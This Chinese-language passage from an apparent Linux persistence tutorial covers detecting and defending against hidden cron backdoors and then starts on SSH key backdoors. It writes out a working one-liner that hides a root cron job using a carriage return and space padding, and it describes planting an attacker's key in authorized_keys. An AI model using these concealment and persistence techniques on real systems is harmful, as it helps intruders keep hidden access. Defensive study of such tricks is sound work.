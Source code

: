 ## 检测

**被控端：**

这种后门方式，无法直接使用cat命令查看cron文件，可以使用cat -A参数查看，或者通过vim命令，vim /var/spool/cron/crontabs/root发现定时任务，如下图：

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0qTGJJZU8eEyth2doRFx9ibgPxzlbdO0dFyeBUfd627tEXzDA92z5zfg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

cat /var/spool/cron/crontabs/root
![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF08yAm3LmrlUd1mDmcEKqqqtHzibbia2uCVicguiaQwMP8Eg60cdZrZToiboA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

或者crontab -e ，查看真实的计划任务

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF055tS3HiaCESNJB7iak7j1NsNOdn9ibK009qfeouFW1slkjyOibddiaLWHHw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

执行crontab -r命令删除crontab文件，但需要注意的是，当前使用的是什么用户执行完该命令就会删除对应账号的crontab文件，并且普通用户一般没有权限访问/var/spool/cron。

## 防御

```
1.在/etc/cron.allow中设置，采用白名单，只允许某个账号使用crontab命令；

2.cron每分钟都会读取一次/etc/crontab与/var/spool/cron文件内容，所以要
时常注意这些文件；
```

## 探究

```
(crontab -l;printf "*/1 * * * * /root/first.sh;\rno crontab for `whoami`%100c\n")|crontab -
```

```
*/1 * * * *：每隔1分钟执行一次；
/r：cat默认支持 \r 回车符 \n 换行符 \f 换页符这些符号，会导致显示截断隐藏命令，隐藏真实的计划任务；
%100c：格式化输出一个字符，前面99个空格补齐。使用空格帮助我们把前面的内容在 crontab 中遮盖掉；
如果想让创建的文件隐蔽性更强，可以创建名为".."、“...”或以..等开头的
```


# ssh后门

## ssh公钥免密登录

### 效果

在攻击端生成密钥对，将公钥复制到被控端~/.ssh/authorized_keys文件，并设置相应的权限，即可免密码登录被控端。

### 实例

攻击端：
	ssh -keygen -b 4096 -t rsa       # 创建密钥对，生成id\_rsa和id\_rsa.pub文件
![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0ryp0wyggj3hQBiaru3GL6Cia2D2FPaBoBWnUZ1D4W9xCKJm7yzsUyCGw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

